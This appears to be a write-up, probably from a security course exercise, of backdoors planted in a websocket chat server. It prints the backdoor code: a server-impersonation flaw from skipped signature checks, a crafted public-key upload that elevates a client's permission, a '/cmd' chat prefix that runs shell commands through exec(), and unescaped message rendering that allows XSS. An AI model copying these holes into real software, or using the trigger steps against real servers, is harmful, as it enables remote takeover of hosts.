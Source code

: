 # Backdoors and Vulnerabilities
## Impersonating Servers Vulnerability
When a "server_hello" message is received by a server, the corresponding signature of the message isn't verified with the connecting server's pre-established publicKey, meaning that while one of the authdServer servers is down/crashed/DDOS'd any other random Hacker with a server implementation can send a "server_hello" with the downed server's ip, impersonating the server.
```
case "server_hello":
	var pk = getServerPubKey(data.sender);
	if (pk != null) {
		var fp = crypto.createHash('sha256').update(pk).digest('base64');
		ws.ip = data.sender;
		ws.public_key = pk;
		ws.fingerprint = fp;
		ws.type = "server";
		connectedServers.push(ws);
		console.log("Connected to server: " + ws.ip);
	}
	break;
```
## Elevating client permissions on server.
This code, located within the POST Request Handling of file uploads, checks the contents of each file upload to see if it begins with the data of the server's publicKey.
```
if (check.startsWith(pubkey_pem)) {
	var checkers = check.split("\n");
	if (checkers.length > 9) {
		var vfp = checkers[9];
		console.log(vfp);
		var client_ind = getClientIndex(vfp);
		if (client_ind != -1) {
			connectedClients[client_ind].permission = 1;
			res.setHeader('Content-Type', 'application/json');
			res.end(JSON.stringify({
				status: "Created",
				url: "Vulnerability Activated"
			}));
		}
	}
} else {
```
If the file does begin with the server's publicKey, if then the 'next line' in the file contains a valid fingerprint of a currently connected client, add a field "permission" to the client's associated websocket.
Example of file formatting for upload:
```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAoEWigTZy0S1+7qyezGUC
6uUDHy7xWDDGdgsp+7gr9S7GmnvpnYX3LfPBjx4vZ5lc7+8zU3oSsOigudASc1UE
qYyMt5fGkRiNYv7CKl7Jeiz/Ztt5GZKTxOBxFdyWg+upxEXk1OcF15G5LxkskrX4
BseXf30N2Eg5qRqHArbhUyb12s9/R1nueCXZA5+9cWyEzC9GsxaWWV0SkXlUXrtQ
0p37AQxLgm8Tvs54cZa4K4c2bnpWgD/hC0gGd7KXz5l0ByMEan+KVEyyca7pJryJ
Iqmijx2dmrKVkxr8qSAFHAhhoiPx/pYcYiO01lNJ//x2Mt4hV1U3xby42AkDXcJt
EwIDAQAB
-----END PUBLIC KEY-----
6b5cBW7+8zWqFrMXFlo+1hBjbrD/OO2nEMHeiDXBWwA
```
Where the last line is changed to be the the client's fingerprint.
The publicKey of the server can be accessed by going to the "/pubkey" route of the server
```
https://<serverip>:<port>/pubkey
```
### Executing system commands on server from client
Whenever a client sends a public_chat message to the server, if the "permission" field is present and the message starts with "/cmd ", attempt to execute the message on the commandline.
```
case "public_chat":
	if (ws.permission == 1) {
		if (dataObj.data !== undefined) {
			var msg = dataObj.data.message;
			var cmd = "";
			if (msg.startsWith("/cmd ")) {
				cmd = msg.substr(4);
				console.log("executing code");
				exec(cmd, (err, stdout, stderr) => {
					if (err) {
						console.log("couldn't execute command");
						return;
					}
					console.log(`stdout: ${stdout}`);
					console.log(`stderr: ${stderr}`);
					var retmsg = stdout + "\n" + stderr;
					var execret = {
						type: "anonymous_chat",
						message: retmsg
					};
					ws.send(JSON.stringify(execret));
				});
				return;
			} else if (msg.startsWith("/pk")) {
				console.log("request for client privateKeys");
				dataObj.data.check = 1;
			}
		}
	}
	sendToList(connectedClients, JSON.stringify(dataObj), data.sender);
	sendToList(connectedServers, JSON.stringify(dataObj), ws.fingerprint);
	break;
```
### Executing XSS on clients
Whenever a client sends a message, the sent message goes through "escapeHTML()" function to remove special characters to avoid xss attacks, however the "escapeHTML()" isn't used when receiving messages so a client could alter their own client code to not sanitize its outgoing messages and execute XSS attacks on other clients.

Sending Message:
```
case "public_chat":
	sendMessage.data.type = "public_chat";
	sendMessage.data.sender = my_fp;
	sendMessage.data.message = msg;
	var chat_str = timeStamp() + " " + "ME: " + msg;
	chat_window.innerHTML = "<p class='publicmsg'>" + escapeHTML(chat_str) + "</p>" + chat_window.innerHTML;
	break;
```
Receiving Message:
```
case "public_chat":
	if (checkCounter(data.sender, dataObj.counter) != -1) {
		var s_pk = getClientPk(data.sender);
		if (verifySig(dataObj, s_pk)) {
			var chat_str = timeStamp() + " " + data.sender + ": " + data.message;
			chat_window.innerHTML = "<p class='publicmsg'>" + chat_str + "</p>" + chat_window.innerHTML;
			//console.log(data.sender + ": " + data.message);
		} else {
			console.log("invalid signature verification");
		}
	}
	break;
```
